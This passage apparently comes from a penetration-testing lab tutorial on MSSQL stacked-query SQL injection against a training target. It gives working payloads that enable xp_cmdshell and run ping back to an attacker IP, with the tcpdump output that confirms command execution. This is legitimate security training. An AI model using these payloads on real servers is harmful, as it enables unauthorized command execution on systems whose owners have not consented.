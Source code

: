 In the case of `Aunt Maria's Donuts`, the payload will look like this:

```sql
';exec sp_configure 'show advanced options','1';reconfigure;--

```

URL-Encode, inject, and we should get a regular response from the server if it worked correctly:

![](c9RpEZjjvKJq.png)

Next, we will enable `xp_cmdshell` (it is an advanced option, so make sure to run this previous query first). The commands are:

```sql
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;

```

The payload (before URL-Encoding) is:

```sql
';exec sp_configure 'xp_cmdshell','1';reconfigure;--

```

And once again a successful injection should return a regular response:

![](3sTb8zdYQ2kC.png)

At this point, `xp_cmdshell` should be enabled, but just to make sure we can `ping` ourselves a couple of times. The command to do this looks like this:

```sql
EXEC xp_cmdshell 'ping /n 4 192.168.43.164';

```

And as a payload like this:

```sql
';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

```

Make sure to start `tcpdump` on the correct interface "(which would be `tun0` for Pwnbox)" before running the payload, and you should see `4` pairs of ICMP request/reply packets:

```shell
sudo tcpdump -i eth0
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
<SNIP>
07:41:13.167468 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 6, length 40
07:41:13.167500 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 6, length 40
07:41:14.218855 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 7, length 40
07:41:14.218928 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 7, length 40
07:41:15.190453 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 8, length 40
07:41:15.190515 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 8, length 40
07:41:16.209580 IP 192.168.43.156 > 192.168.43.164: ICMP echo request, id 1, seq 9, length 40
07:41:16.209615 IP 192.168.43.164 > 192.168.43.156: ICMP echo reply, id 1, seq 9, length 40
<SNIP>
^C
29 packets captured
29 packets received by filter
0 packets dropped by kernel

```
